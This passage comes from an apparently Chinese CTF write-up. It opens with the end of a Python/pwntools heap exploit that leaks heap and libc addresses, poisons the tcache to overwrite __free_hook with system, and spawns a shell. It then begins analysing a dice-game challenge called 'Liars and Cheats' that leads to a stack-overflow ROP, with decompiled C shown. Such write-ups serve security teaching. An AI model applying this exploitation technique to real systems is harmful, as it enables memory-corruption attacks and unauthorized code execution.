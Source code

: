 ```
delete_friend(0)
show_movie("AAA")
heap_base = u64(p.recv(5).ljust(8, b"\x00")) &lt;&lt; 12 

# leak libc
for i in range(1, 8):
    delete_friend(i)
add_friend(0x88, "0")
show_movie("BBB")
libc_base = u64(p.recv(6).ljust(8, b"\x00")) - 0x1e3ba0 - 0xE0

# attack
leave()
for i in range(9):
    add_feedback(str(i))
for i in range(2, 9):
    delete_feedback(i)
delete_feedback(0)
delete_feedback(1)
add_feedback("AAA") # chunk 0
delete_feedback(1)

free_hook = libc_base + libc.sym['__free_hook']
add_detail(b"A" * 0x108 + p64(0x111) + p64(free_hook ^ (heap_base &gt;&gt; 12)))

add_feedback("/bin/sh\x00") # chunk 1
add_feedback(p64(libc_base + libc.sym['system']))

delete_feedback(1)

success("libc_base: " + hex(libc_base))
success("heap_base: " + hex(heap_base))

p.interactive()
```



## Liars and Cheats

### <a class="reference-link" name="%E9%A2%98%E7%9B%AE%E5%88%86%E6%9E%90"></a>题目分析

首先这题主要是玩一个骰子游戏，赢了之后直接给一个栈溢出的机会做ROP；所以重点在leak和怎么赢游戏上。<br>
分析一下整个游戏的规则和流程：
<li>首先分配一块内存，用于存放骰子6个点数分别对应的个数，后面AI做决策的时候会用到：
<pre><code class="lang-C hljs"> dice_count = malloc(0x18uLL);
 if ( !dice_count )
     return 0xFFFFFFFFLL;
 v4 = step_into_game((__int64)dice_count);
</code></pre>
</li>
<li>再由用户决定玩游戏的人个数：
<pre><code class="lang-C hljs"> // ...
 players = read_int("How many players total (4-10)? ");
 if ( players &lt;= 3 || players &gt; 10 )
   return 0xFFFFFFFFLL;
 self = players - 1;
 ptr = malloc(4LL * players);
 // ...
</code></pre>
人数在4 ~ 10之间，并分配相应的内存，用来后面储存每个player所剩骰子的个数。
</li>